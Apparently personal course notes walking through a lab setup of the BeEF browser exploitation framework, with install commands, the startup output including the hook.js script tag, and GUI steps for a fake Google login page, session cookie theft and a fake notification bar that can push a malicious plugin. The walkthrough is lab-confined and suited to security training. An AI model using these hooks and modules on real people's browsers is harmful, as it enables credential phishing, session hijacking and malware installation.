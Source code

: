 # BeEF

### To install:

update + upgrade VMs 

```jsx
sudo apt-get update
sudo apt-get upgrade
```

install BeEF by typing its name in the the terminal

it will prompt you to ask if you with to install

to all prompts type ‘y’ and press enter

```jsx
beef-xss
```

if it says that not all packages have installed properly, use the following:

```jsx
beef-xss --fix-missing
```

### Once successfully installed:

launch beef using the command:

```jsx
sudo beef-xss
```

the output should look like this:

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop/beef]
└─$ sudo beef-xss         
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
/usr/bin/beef-xss: line 27: [: =: unary operator expected
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/usr/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: active (running) since Tue 2024-12-03 12:09:41 EST; 5s ago
 Invocation: 65e7ef93a90141499a195d7ca04bec02
   Main PID: 38132 (ruby)
      Tasks: 4 (limit: 4589)
     Memory: 84.7M
        CPU: 667ms
     CGroup: /system.slice/beef-xss.service
             └─38132 ruby /usr/share/beef-xss/beef

Dec 03 12:09:42 osboxes beef[38132]: == 24 CreateAutoloader: migrated (0…====
Dec 03 12:09:42 osboxes beef[38132]: == 25 CreateXssraysScan: migrating …====
Dec 03 12:09:42 osboxes beef[38132]: -- create_table(:xssraysscans)
Dec 03 12:09:42 osboxes beef[38132]:    -> 0.0003s
Dec 03 12:09:42 osboxes beef[38132]: == 25 CreateXssraysScan: migrated (…====
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42][*] BeEF is loading. Wait…s...
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42][!] [AdminUI] Error: Coul…mony
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42]    |_  [AdminUI] Ensure …H` !
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42][!] [AdminUI] Error: Coul…mony
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42]    |_  [AdminUI] Ensure …H` !
Hint: Some lines were ellipsized, use -l to show in full.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1... 
```

when prompted for a password type ‘password’ and press enter

this will then bring up a webpage with a login:

(insert login page picture here (it didn’t paste properly))

login with the credentials

username: beef

password: password

this will bring up the control panel screen for BeEF

![image.png](image.png)

### what these tabs mean:

1. **Hooked Browsers:** This is where you'll see a list of all currently hooked browsers. Each browser is listed with details such as IP address, browser name, and operating system. As no browsers are hooked up initially, this section will be empty.
2. **Getting Started:** This section provides guidance on how to use the BeEF framework. It includes information on how to hook a browser and use command modules.
3. **Logs:** This section shows a log of the BeEF activity. This includes interactions with the target browsers, commands sent, responses received, and any errors or important system messages.
4. **Zombies:** In BeEF terminology, a "zombie" is a hooked browser that the BeEF server controls. The "Zombies" section lists these browsers and allows you to interact with them. As no browsers are hooked yet, this section will also be empty.
5. **Basic:** This view provides basic information about the hooked browser, such as the IP address, browser type, and operating system. In this view, you can also use the available command modules to interact with the hooked browser.
6. **Requester:** The "Requester" view lets you manually craft and send HTTP requests from the hooked browser. This can be useful for exploring the website or web application from the perspective of the hooked browser, testing access controls, or performing other manual testing tasks.

### hooking a website:

create an Ubuntu Desktop virtual machine

open a Firefox browser on the Ubuntu VM and navigate to the webpage (replacing the ip with the ip of your kali machine):

```jsx
http://192.168.4.113:3000/demos/butcher/index.html
```

This should bring up a webpage like this:

![image.png](image%201.png)

Once this page has been opened, return to your Kali machine

The Ubuntu VM’s ip should appear under the ‘Online Browsers’ tab

![image.png](image%202.png)

Once this has appeared, click on the ip

this will bring up many built-in options to try out and uses a colour scheme to illustrate which attacks work against the hooked browser

![image.png](image%203.png)

### google phishing:

navigate to the social engineering tab and click on the ‘Google Phishing’ option

this will bring up the following tab:

![image.png](image%204.png)

leave all options as default and click the ‘execute’ button in the bottom right corner

this will bring up the following phishing page on the victim’s (ubuntu VM) browser:

![image.png](image%205.png)

fill out a username and password on the fake google form and click ‘sign in’

return to the Kali VM and the entered credentials will appear in a new tab:

![image.png](image%206.png)

### stealing session cookies:

(cookies are valuable as they allow an attacker to impersonate the user on a website, such as an e-commerce website or the members section of a forum, by taking over the session (as mentioned last week in CSRF attacks))

navigate to the ‘Browser’ tab and click on ‘Get Cookie’

click ‘execute’

this will return the current session cookie from the hooked browser on the Ubuntu machine:

![image.png](image%207.png)

### fake notification bar:

navigate to the ‘Social Engineering’ tab

click on ‘Fake Notification bar (Firefox)’

you can customize the message as you please

click ‘execute’

![image.png](image%208.png)

the following will appear on the Ubuntu Vm’s Firefox browser:

![image.png](image%209.png)

this one is kind of funky but by default it installs a malicious Firefox plugin but you can change the linked URL to whatever malicious file you want in the ‘Plugin URL’ field

![image.png](image%2010.png)

there’s a load of different options to try

go wild xoxo